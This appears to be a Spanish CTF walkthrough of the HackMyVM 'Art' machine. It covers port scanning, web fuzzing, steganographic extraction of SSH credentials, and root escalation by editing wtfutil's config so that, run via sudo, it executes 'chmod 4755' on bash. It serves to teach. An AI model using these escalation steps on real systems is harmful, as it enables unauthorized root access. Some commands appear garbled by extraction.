



HACKMYVM
PE
SUID
estenography
Art.
Autor:sml
Fecha de creacion:2022-08-04
Dificultad:Easy
Reconocimiento y enumeración
Primero hacemos el reconocimiento de los puertos que contienen la maquina
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv -oG allPorts.txt 192 .168.1.116
Argumento
Descripción
-p-
Escanea todos los puertos, en total 65535
--open
Filtrar por los puertos abiertos.
-sS
Escaneo SYN Port.
--min-rate X
Intervalo mínimo de tiempo para el envió de paquetes.
-n
No realizar resolución DNS (Domain Name Server).
-Pn
No realizar Host Discovery (No determinar si el host esta vivo).
-vvv
Nivel de verbose (Información mas detallada).
-oG
Guardar los resultados en un archivo con facilidad de buscar palabras (grep)
Vemos que tenemos los siguientes puertos abiertos:
Starting Nmap 7 . 95 ( https : //nm ap . org ) at 2024 - 07 - 21 13 : 31 CST
Initiating ARP Ping Scan at 13 : 31
Scanning 192 . 168 . 1 . 116 [ 1 port ]
Completed ARP Ping Scan at 13 : 31 , 0 . 04 s elapsed ( 1 total hosts )
Initiating SYN Stealth Scan at 13 : 31
Scanning 192 . 168 . 1 . 116 [ 65535 ports ]
Discovered open port 22 / tcp on 192 . 168 . 1 . 116
Discovered open port 80 / tcp on 192 . 168 . 1 . 116
Completed SYN Stealth Scan at 13 : 31 , 0 . 61 s elapsed ( 65535 total ports )
Nmap scan report for 192 . 168 . 1 . 116
Host is up , received arp - response ( 0 . 00031 s latency ) .
Scanned at 2024 - 07 - 21 13 : 31 : 20 CST for 1 s
Not shown : 65533 closed tcp ports ( reset )
PORT STATE SERVICE REASON
22 / tcp open ssh syn - ack ttl 64
80 / tcp open http syn - ack ttl 64
MAC Address : 00 : 0 C : 29 : 93 : 27 : 2 A ( VMware )
Read data files from : /usr/ bin /../ share / nmap
Nmap done : 1 IP address ( 1 host up ) scanned in 0 . 72 seconds
Raw packets sent : 65536 ( 2 . 884 MB ) | Rcvd : 65536 ( 2 . 621 MB )
Ahora obtendremos el detalle de los servicios que se están ejecutando en los puertos:
nmap -p22,80 -sCV 192 .168.1.116 -oN openServices.txt
Argumento
Descripción
-p
Definir los puertos a escanear
-sCV
Combina el script de detección de versiones y ejecución de scripts predeterminados de nmap (NSE)
-oN
Genera un archivo con los resultados con una salida legible
Tenemos como resultado los servicios que están expuestos, un nginx y ssh.
Starting Nmap 7 . 95 ( https : //nm ap . org ) at 2024 - 07 - 21 13 : 35 CST
Nmap scan report for 192 . 168 . 1 . 116 ( 192 . 168 . 1 . 116 )
Host is up ( 0 . 00013 s latency ) .
PORT STATE SERVICE VERSION
22 / tcp open ssh OpenSSH 8 . 4 p1 Debian 5 + deb11u1 ( protocol 2 . 0 )
| ssh - hostkey :
| 3072 45 : 42 : 0 f : 13 :cc : 8 e : 49 :dd:ec:f5:bb : 0 f : 58 :f4:ef : 47 ( RSA )
| 256 12 : 2 f : a3 : 63 :c2 : 73 : 99 :e3:f8 : 67 : 57 :ab : 29 : 52 :aa : 06 ( ECDSA )
| _ 256 f8 : 79 : 7 a : b1 : a8 : 7 e : e9 : 97 : 25 :c3 : 40 : 4 a : 0 c : 2 f : 5 e : 69 ( ED25519 )
80 / tcp open http nginx 1 . 18 . 0
| _http - server - header : nginx / 1 . 18 . 0
| _http - title : Site doesn 't have a title (text/html; charset=UTF-8).
MAC Address: 00:0C:29:93:27:2A (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.35 seconds
Cuando nos dirigimos al navegador y vemos la web expuesta en el puerto 80 vemos una galería de imágenes:

Haremos búsqueda de directorios por fuerza bruta con gobuster e incluiremos búsqueda por extensiones de archivos:
dir -u http://192.168.1.116 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt,jpg,xml
Argumento
Descripción
-u
Definir la dirección url
-w
Definir la ruta de la wordlist (diccionario)
-x
Realizar búsqueda por extensiones de archivos
Encontramos un archivo index.php
===============================================================
Gobuster v3 . 6
by OJ Reeves ( @TheColonial ) & Christian Mehlmauer ( @firefart )
===============================================================
[+] Url : http : // 192 . 168 . 1 . 116
[+] Method : GET
[+] Threads : 10
[+] Wordlist : /usr/s hare / seclists / Discovery / Web - Content / directory - list - 2 . 3 - medium . txt
[+] Negative Status codes : 404
[+] User Agent : gobuster / 3 . 6
[+] Extensions : txt , jpg , xml , html , php
[+] Timeout : 10 s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php (Status: 200) [Size: 170]
Progress: 1323354 / 1323360 ( 100 . 00 % )
===============================================================
Finished
===============================================================
Esto no nos dice mucho, por que utilizaremos ffuf para obtener mas información
-w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://192.168.1.116/index.php\? FUZZ\= id -fs 170
/'___\ / '___\ /' ___ \
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ , __ \\ \ , __ \ / \ \ / \ \ \ \ , __ \
\ \ \ _ / \ \ \ _ / \ \ \ _ \ \ \ \ \ _ /
\ \ _ \ \ \ _ \ \ \ ____ / \ \ _ \
\ / _ / \ / _ / \ / ___ / \ / _ /
v2 . 1 . 0
________________________________________________
:: Method : GET
:: URL : http : // 192 . 168 . 1 . 116 / index . php? FUZZ = id
:: Wordlist : FUZZ : /usr/s hare / seclists / Discovery / Web - Content / raft - medium - words - lowercase . txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status : 200 - 299 , 301 , 302 , 307 , 401 , 403 , 405 , 500
:: Filter : Response size : 170
________________________________________________
tag [ Status : 200 , Size : 70 , Words : 11 , Lines : 5 , Duration : 16 ms ]
:: Progress : [ 56293 / 56293 ] :: Job [ 1 / 1 ] :: 3571 req / sec :: Duration : [ 0 : 00 : 16 ] :: Errors : 0 ::
Vemos el código fuente de la pagina y vemos que menciona algo relacionado al tag

Volvemos a hacer una búsqueda por la palabra tag:
-w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -u http://192.168.1.116/index.php\? tag\= FUZZ -fs 70
Vemos que tenemos dos coincidencias:
/'___\ / '___\ /' ___ \
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ , __ \\ \ , __ \ / \ \ / \ \ \ \ , __ \
\ \ \ _ / \ \ \ _ / \ \ \ _ \ \ \ \ \ _ /
\ \ _ \ \ \ _ \ \ \ ____ / \ \ _ \
\ / _ / \ / _ / \ / ___ / \ / _ /
v2 . 1 . 0
________________________________________________
:: Method : GET
:: URL : http : // 192 . 168 . 1 . 116 / index . php?tag = FUZZ
:: Wordlist : FUZZ : /usr/s hare / seclists / Discovery / Web - Content / raft - large - words - lowercase . txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status : 200 - 299 , 301 , 302 , 307 , 401 , 403 , 405 , 500
:: Filter : Response size : 70
________________________________________________
0 [ Status : 200 , Size : 170 , Words : 15 , Lines : 5 , Duration : 11 ms ]
beauty [ Status : 200 , Size : 93 , Words : 12 , Lines : 5 , Duration : 10 ms ]
beautiful [ Status : 200 , Size : 170 , Words : 15 , Lines : 5 , Duration : 11 ms ]
:: Progress : [ 107982 / 107982 ] :: Job [ 1 / 1 ] :: 3448 req / sec :: Duration : [ 0 : 00 : 30 ] :: Errors : 0 ::
Nos dirigimos a la pagina y hacemos la búsqueda por http://192.168.1.116/index.php?tag=beauty

Realizamos una consulta para saber el archivo que contiene el index.php
-s http://192.168.1.116/index.php\? tag\= beauty | cat
Vemos que el archivo es dsa32.jpg
Procedemos a descargar la imagen y analizarla con StegSeek
-O http://192.168.1.116/dsa32.jpg
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 4066k 100 4066k 0 0 177M 0 --:--:-- --:--:-- --:--:-- 180M
Intrusión
Utilizamos la herramienta de stegseek, que nos ayudara a extraer dato ocultos mediante la tecnica de esteganografia
dsa32.jpg -wl /usr/share/dict/rockyou.txt
Ha encontrado un archivo oculto llamdo yes.txt, el resultado nos lo guarda en el archivo dsa32.jpg.out
StegSeek 0 . 6 - https : // github . com / RickdeJager / StegSeek
[ i ] Found passphrase : ""
[ i ] Original filename : "yes.txt" .
[ i ] Extracting to "dsa32.jpg.out" .
Procedemos a leer el contenido del archivo
Al leer el contenido del fichero vemos lo que parece ser un usuario y una contraseña
Recordamos que tenemos habilitado el puerto ssh, por lo que entramos con las credenciales que obtuvimos.
Nos permite entrar como el usuario lion
The authenticity of host '192.168.1.116 (192.168.1.116)' can 't be established.
ED25519 key fingerprint is SHA256:6icD/Bw7zNCkO/tjgVhzyYMGZkZVKkOvOlpNVvcBQo0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added ' 192 . 168 . 1 . 116 ' (ED25519) to the list of known hosts.
lion@192.168.1.116' s password :
Linux art 5 . 10 . 0 - 16 - amd64 #1 SMP Debian 5.10.127-2 (2022-07-23) x86_64
The programs included with the Debian GNU / Linux system are free software ;
the exact distribution terms for each program are described in the
individual files in /usr/s hare / doc /*/ copyright .
Debian GNU / Linux comes with ABSOLUTELY NO WARRANTY , to the extent
permitted by applicable law .
Last login : Wed Aug 3 11 : 18 : 18 2022 from 192 . 168 . 1 . 51
lion @art :~ $
Leemos el contenido de la flag para el usuario.
Escalada de privilegios
Dentro de la enumeración utilizamos el comando sudo -l donde:
Argumento
Descripción
sudo
Programa "super user do" que permite ejecutar comando con permisos de otro usuario, normalmente como el usuario root.
-l
Lista privilegios de usuario o chequea un comando especifico; usar dos veces para formato extenso.
sudo -l
Defaults entries for lion on art:
env_reset, mail_badpass, secure_path = /usr/local/sbin\: /usr/local/bin\: /usr/sbin\: /usr/bin\: /sbin\: /bin
lion may run the following commands on art:
( ALL : ALL) NOPASSWD: /bin/wtfutil
Vemos que el usuario lion tiene acceso al binario /bin/wtfutil sin necesidad de utilizar la contraseña. Al ejecutar el binario nos muestra lo siguiente:
Por lo que podemos ver en el dashboard wtfutil tiene un archivo de configuración bajo la ruta ~/.config/wtf/config.yml y este ejecuta el comando uptime en la parte inferior del dashboard.
Procedemos a ver el archivo de configuración:
wtf :
colors :
border :
focusable : darkslateblue
focused : orange
normal : gray
grid :
columns : [ 32 , 32 , 32 , 32 , 90 ]
rows : [ 10 , 10 , 10 , 4 , 4 , 90 ]
refreshInterval : 1
mods :
clocks_a :
colors :
rows :
even : "lightblue"
odd : "white"
enabled : true
locations :
Vancouver : "America/Vancouver"
Toronto : "America/Toronto"
position :
top : 0
left : 1
height : 1
width : 1
refreshInterval : 15
sort : "alphabetical"
title : "Clocks A"
type : "clocks"
clocks_b :
colors :
rows :
even : "lightblue"
odd : "white"
enabled : true
locations :
Paris : "Europe/Paris"
Barcelona : "Europe/Madrid"
Dubai : "Asia/Dubai"
position :
top : 0
left : 2
height : 1
width : 1
refreshInterval : 15
sort : "alphabetical"
title : "Clocks B"
type : "clocks"
feedreader :
enabled : true
feeds :
- http : // feeds . bbci . co . uk / news / rss . xml
feedLimit : 10
position :
top : 1
left : 1
width : 2
height : 1
refreshInterval : 14400
ipinfo :
colors :
name : "lightblue"
value : "white"
enabled : true
position :
top : 2
left : 1
height : 1
width : 1
refreshInterval : 150
power :
enabled : true
position :
top : 2
left : 2
height : 1
width : 1
refreshInterval : 15
title : "⚡️"
textfile :
enabled : true
filePath : "~/.config/wtf/config.yml"
format : true
position :
top : 0
left : 0
height : 4
width : 1
refreshInterval : 30
wrapText : false
uptime :
args : [ "" ]
cmd : "uptime"
enabled : true
position :
top : 3
left : 1
height : 1
width : 2
refreshInterval : 30
type : cmdrunner
Identificamos que existe la posibilidad de introducir comandos en la linea cmd: uptime, por lo que probaremos cambiando los permisos del binario bash con los permisos 4755. Donde:
Numero
Permiso
Notación
4
s
El archivo es SUID.
7
rwx
Permisos de lectura, escritura, ejecución.
5
r-x
Lectura y ejecución.
uptime :
args : [ "4755" , "/usr/bin/bash" ]
cmd : "chmod"
enabled : true
position :
top : 3
left : 1
height : 1
width : 2
refreshInterval : 30
type : cmdrunner
Previamente a la ejecución obtenemos los permisos asociados a /usr/bin/bash
ls -l $( which bash)
1 root root 1234376 mar 27 2022 /usr/bin/bash
ejecutamos de nuevo como usuario root con la modificación aplicada.
-u root /bin/wtfutil --config= /home/lion/.config/wtf/config.yml
Vemos que el comando se ha ejecutado correctamente
Obtenemos nuevamente los permisos asociados a /usr/bin/bash
ls -l $( which bash)
1 root root 1234376 mar 27 2022 /usr/bin/bash
Pwned
Procedemos a escalar privilegios con el comando /usr/bin/bash -P
Argumento
Descripción
/usr/bin/bash
Ruta del binario de bash
-p
Generar una nueva shell con privilegios de administrador
/usr/bin/bash -p
id
uid = 1000 ( lion) gid = 1000 ( lion) euid = 0 ( root) grupos = 1000 ( lion) ,24( cdrom) ,25( floppy) ,29( audio) ,30( dip) ,44( video) ,46( plugdev) ,108( netdev)
whoami
Buscamos la bandera de la cuenta root con find
find / -name "root.txt" 2 >/dev/null
May 12, 2026
May 12, 2026